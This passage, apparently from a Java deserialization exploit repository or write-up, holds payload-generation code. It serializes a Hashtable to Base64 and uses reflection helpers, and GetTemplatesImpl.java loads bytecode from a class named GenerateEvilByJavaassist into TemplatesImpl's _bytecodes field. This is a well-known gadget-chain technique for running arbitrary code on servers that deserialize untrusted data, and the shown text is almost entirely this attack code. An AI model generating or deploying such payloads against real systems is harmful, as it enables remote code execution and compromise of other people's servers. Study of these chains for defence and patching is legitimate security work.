 ```
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(hashtable);
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())));

        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())).length());
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

}
```

GetTemplatesImpl.java

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.lang.reflect.Field;

public class GetTemplatesImpl {
    public static TemplatesImpl getTemplatesImpl() throws Exception{

        byte[][] bytes = new byte[][]{GenerateEvilByJavaassist.generate()};



        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);


        return  templates;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
